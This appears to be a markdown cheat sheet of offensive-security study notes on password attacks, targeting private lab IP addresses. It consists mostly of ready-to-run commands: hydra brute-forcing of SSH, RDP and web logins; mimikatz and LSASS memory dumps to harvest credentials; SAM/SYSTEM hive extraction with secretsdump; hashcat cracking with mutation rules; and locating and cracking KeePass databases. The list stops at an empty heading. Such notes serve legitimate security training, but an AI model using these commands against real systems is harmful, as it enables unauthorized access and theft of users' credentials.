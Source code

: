 # Password attack  
- SSH  
  `hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.50.201`
- RDP  
  `hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.202`  
- http POST login  
  `hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"`
- Obtain hashes  
  - `.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit`
  - `.\mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam" exit`
  - `rundll32.exe C:\windows\system32\comsvcs.dll, MiniDump  lsass.exe C:\temp\lsass.dmp full` #LSASS Memory Dump + PyPyKatz
  - Extracting SAM & SYSTEM Hives (local disk hashes)
    ```
    reg save HKLM\SAM C:\temp\SAM 
    reg save HKLM\SYSTEM C:\temp\SYSTEM

    secretsdump.py -sam /home/kali/uploads/sam -system /home/kali/uploads/system LOCAL   
    ```
- crack NTLM 1000  
  `hashcat -m 1000 steve.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force`    
- mutating wordlist  
  - [rule-based attack](https://hashcat.net/wiki/doku.php?id=rule_based_attack)
    - `ls -la /usr/share/hashcat/rules/`  
    - Append character X to end: $1$2
    - Prepend character X to front: ^2^1
    - Capitalize the first character, lowercase the rest: c
    - Do nothing: :
    - `echo \$1 > demo.rule` append 1 to password
      `hashcat -m 0 crackme.txt /usr/share/wordlists/rockyou.txt -r demo3.rule --force`  #crack MD5 0
      ```
      $1 c
      Password1
      Iloveyou1
      
      $1
      c
      password1
      Password

      $1 c $!
      $2 c $!
      $1 $2 $3 c $!
      Computer123!

      #Passwords need 3 numbers, a capital letter and a special character
      c $1 $3 $7 $!
      c $1 $3 $7 $@
      c $1 $3 $7 $#
      Umbrella137!
      ```
- `hash-identifier "4a41e0fdfb57173f8156f58e49628968a8ba782d0cd251c6f3e2426cb36ced3b647bf83057dabeaffe1475d16e7f62b7"`
- Password manager (KeePass)  
  ```
  Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue #search DB
  keepass2john Database.kdbx > keepass.hash #format the hash
  nano keepass.hash #remove the Prepand "Database"
  hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force  #crack KeePass 13400
  ```
- ssh private key passphrase